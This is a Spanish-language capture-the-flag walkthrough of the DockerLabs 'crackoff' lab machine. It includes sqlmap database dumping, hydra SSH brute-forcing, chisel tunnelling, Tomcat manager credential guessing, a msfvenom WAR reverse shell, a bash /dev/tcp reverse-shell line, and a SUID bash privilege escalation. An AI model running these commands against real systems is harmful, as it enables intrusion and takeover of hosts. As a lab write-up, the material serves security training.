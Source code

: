 # crackoff

Maquina crackoff de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Dificil

![dock](./images/crackoff/imagenes/dock.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Aug 26 20:58:30 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-08-26 20:58:30 -03 for 9s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3d:fc:bd:41:cb:81:e8:cd:a2:58:5a:78:68:2b:a3:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNuJZkQSLJmcZX14n7uNiUBZ/Li3VabQ8/HRKIsPXb/9CZmDhjdBLLRgvjL9NpgVgU2gGEFTSkljIn0SGcgaoIY=
|   256 d8:5a:63:27:60:35:20:30:a9:ec:25:36:9e:50:06:8d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINZLckodawlUx1KSiq+zaADv0w1jbQwrlE98GYdEY/jH
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: CrackOff - Bienvenido
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 26 20:58:39 2024 -- 1 IP address (1 host up) scanned in 9.35 seconds

```

Solo vemos el puerto 80 y 22 abierto, por lo que continuaremos al navegador.

**PUERTO 80:**

![80](./images/crackoff/imagenes/80.png)

Luego de ver un rato, entré en "Iniciar Sesión" y vi un panel de login que es vulnerable a inyeccion sql, por lo que ejecutaremos lo siguiente para poder ver la base de datos:

```css
sqlmap -u "http://172.17.0.2/login.php" --forms --batch --dbs --time-sec=1 --dump
```

```css
+----+---------------------------+------------------+
| id | password                  | username         |
+----+---------------------------+------------------+
| 1  | password123               | rejetto          |
| 2  | alicelaultramejor         | tomitoma         |
| 3  | passwordinhack            | alice            |
| 4  | supersecurepasswordultra  | whoami           |
| 5  | estrella_big              | pip              |
| 6  | colorcolorido             | rufus            |
| 7  | ultramegaverypasswordhack | jazmin           |
| 8  | unbreackroot              | rosa             |
| 9  | happypassword             | mario            |
| 10 | admin12345password        | veryhardpassword |
| 11 | carsisgood                | root             |
| 12 | badmenandwomen            | admin            |
+----+---------------------------+------------------+
```

Como vemos, tenemos varios usuarios, por lo que nos lo guardaremos en un `user.txt` y `pass.txt`. Luego ejecutaremos hydra con ambos apuntando al puerto 22 de ssh.

```css
hydra -L user.txt -P pass.txt ssh://172.17.0.2 -vV
```

```css
[22][ssh] host: 172.17.0.2   login: rosa   password: ultramegaverypasswordhack
```

## INTRUSION

Teniendo creedenciales del ssh nos conectaremos y listo. `ssh rosa@172.17.0.2`.

## ESCALADA DE PRIVILEGIOS

#### ROSA

Luego de buscar un rato, se me ocurre ver si hay puertos abiertos localmente, para esto simplemente ejecutamos `netstat -punta` y listo.

```css
rosa@e95886b6af7e:~$ netstat -punta
(No info could be read for "-p": geteuid()=1002 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8005          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.2:22           172.17.0.1:41524        ESTABLISHED -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
rosa@e95886b6af7e:~$ 
```

Aca lo unico que nos importa es que `el puerto 8080 esta abierto`, por lo que nos bajamos el [chisel](https://github.com/jpillora/chisel/releases/tag/v1.10.0) y nos lo pasamos a rosa, ahora tendremos que ejecutar esto:

```css
MAQUINA ATACANTE:
./chisel server --reverse -p 1111
```

```css
MAQUINA VICTIMA
./chisel client 192.168.1.101:1111 R:socks
```

Ahora solo modificamos el archivo `/etc/proxychains` y ponemos al final:

```css
socks5 127.0.0.1 1080
```

Una vez hecho esto, ya tendremos conectividad con el puerto 8080, por lo que tendremos que entrar a `127.0.0.1:8080` desde el navegador:

**PUERTO 8080:**

![8080](./images/crackoff/imagenes/tomcat.png)

Como vemos hay un tomcat, pero si queremos ir a "manager app" nos pide contraseña, por lo que haremos lo siguiente:

```css
proxychains msfconsole
```

Una vez iniciada ejecutaremos lo siguiente:

```css
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 127.0.0.1
set RPORT 8080
set USER_FILE /home/kali/users.txt
set PASS_FILE /home/kali/pass.txt
set TARGETURI /manager/html
```

Con `USER_FILE` le pasaremos nuestra wordlist anterior de usuarios, y con `PASS_FILE` la de contraseñas, una vez hecho todo esto nos deberia encontrar la siguiente contraseña:

```css
[+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra
```

Por lo que ya tendremos una contraseña y usuario, ahora simplemente nos queda enviarnos una reverse shell como el usuario "tomcat", para esto entraremos a "manager app" con nuestras credenciales, y en nuestra maquina local nos crearemos un .war malicioso, para hacerlo ejecutamos:

```css
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=9090 -f war -o rev.war
```

Y esto lo cargaremos en la página en la parte que dice "Seleccione archivo WAR a cargar ", y luego apretamos en desplegar.

Ahora volvemos a nuestra maquina atacante y abriremos la msfconsole, luego ejecutaremos todo esto:

```css
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 192.168.1.101
set LPORT 9090
exploit
```

una vez ejecutado todo esto, entraremos desde el navegador a `http://127.0.0.1:8080/rev/`, esperamos un poco y recibiremos la reverse shell.

#### TOMCAT

Estando dentro de la msfconsole nos enviamos una reverse shell para poder dejar de usarla y estar mas cómodos, simplemente escucharemos con netcat en el puerto que queramos(en mi caso el 9090) y luego en msfconsole ejecutamos:

```css
bash -i >& /dev/tcp/192.168.1.101/9090 0>&1
```

Ahora hacemos el tratemiento de la tty, que seria esto:

```css
script /dev/null -c bash #damos al enter y presionamos ctrl+Z
stty raw -echo;fg # damos al enter y escribimos "reset xtern" y volvemos a dar al enter
export TERM=xterm && export SHELL=bash
stty rows 33 columns 128
```

Ahora ejecutamos un `sudo -l` y vemos lo siguiente:

```css
Matching Defaults entries for tomcat on e95886b6af7e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tomcat may run the following commands on e95886b6af7e:
    (ALL) NOPASSWD: /opt/tomcat/bin/catalina.sh
```

viendo que podemos ejecutarlo como root y que encima lo podemos modificar, haremos que le de permisos SUID a bash. Para hacer esto modificamos la primer linea y cambiamos `sh` por `bash` y en la segunda un `chmod u+s /bin/bash`, una vez hecho esto ejecutamos el script como root y luego ponemos `bash -p`. _Ya somos root_:

![root](./images/crackoff/imagenes/root.png)

Gracias por leer.....
